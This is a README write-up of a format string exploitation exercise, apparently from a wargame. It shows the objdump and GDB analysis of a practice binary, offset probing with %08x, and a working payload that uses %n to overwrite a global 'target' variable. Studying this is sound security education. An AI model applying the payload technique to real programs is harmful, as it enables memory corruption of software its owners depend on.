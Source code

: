 # ex07 README

## Objective

The goal of this exercise is to exploit a format string vulnerability to modify the `target` variable and see the message "you have modified the target :)".

## Steps

### 1. Identify the `target` Variable Address

We start by finding the address of the `target` variable using the `objdump` tool:

```sh
objdump -t bin | grep target 
```

This command provides the address of the `target` variable:

```plaintext
080496e4 g     O .bss   00000004              target
```

The address of the `target` variable is `0x080496e4`.

### 2\. Analyze the Binary with GDB

We then use GDB to analyze the binary and understand the structure of the `vuln` function:

```sh

gdb -q ./bin
```

Inside GDB, we set a breakpoint at the `vuln` function:

```sh
break vuln
run
```

Disassemble the `vuln` function to understand its structure:

```sh

disassemble vuln
```

Output:

```plaintext

Dump of assembler code for function vuln:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x218,%esp
   0x0804845d <+9>:     int3
   0x0804845e <+10>:    fcoms  0x44890804(%esi)
   0x08048464 <+16>:    and    $0x8,%al
   0x08048466 <+18>:    movl   $0x200,0x4(%esp)
   0x0804846e <+26>:    lea    -0x208(%ebp),%eax
   0x08048474 <+32>:    mov    %eax,(%esp)
   0x08048477 <+35>:    call   0x804835c <fgets@plt>
   0x0804847c <+40>:    lea    -0x208(%ebp),%eax
   0x08048482 <+46>:    mov    %eax,(%esp)
   0x08048485 <+49>:    call   0x804837c <printf@plt>
   0x0804848a <+54>:    mov    0x80496e4,%eax
   0x0804848f <+59>:    cmp    $0x40,%eax
   0x08048492 <+62>:    jne    0x80484a2 <vuln+78>
   0x08048494 <+64>:    movl   $0x8048590,(%esp)
   0x0804849b <+71>:    call   0x804838c <puts@plt>
   0x080484a0 <+76>:    jmp    0x80484b9 <vuln+101>
   0x080484a2 <+78>:    mov    0x80496e4,%edx
   0x080484a8 <+84>:    mov    $0x80485b0,%eax
   0x080484ad <+89>:    mov    %edx,0x4(%esp)
   0x080484b1 <+93>:    mov    %eax,(%esp)
   0x080484b4 <+96>:    call   0x804837c <printf@plt>
   0x080484b9 <+101>:   leave
   0x080484ba <+102>:   ret
End of assembler dump.
```

### 3\. Finding the Correct Offset

Test the binary with different format string inputs to find the correct offset:

```sh

python -c "print('AAAA ' + ' %08x' * 30)" | ./bin
```

Output:

```plaintext

AAAA  00000200 b7765c20 b7781328 41414141 30252020 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078
target is 0 :(
```

### 4\. Craft the Payload

Based on the offset identified, we craft the payload to overwrite the `target` variable:

```sh

python -c "print('\xe4\x96\x04\x08' + 'A'*60 + '%4\$n')" | ./bin
```

Output:

```plaintext

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have modified the target :)
```
 ![Succsess Flag](./images/image.png)


Conclusion
----------

By carefully analyzing the binary and using a format string vulnerability, we were able to modify the `target` variable and complete the level. This exercise demonstrated the power and risk of format string vulnerabilities in C programs.

Challenges and Learnings
------------------------

- **Challenge**: Identifying the correct offset for the format string.
- **Solution**: Systematically testing different offsets in GDB.
- **Learning**: The importance of understanding format string vulnerabilities and how they can be exploited to modify memory.

By following these steps and understanding the exploitation process, we successfully completed the level.
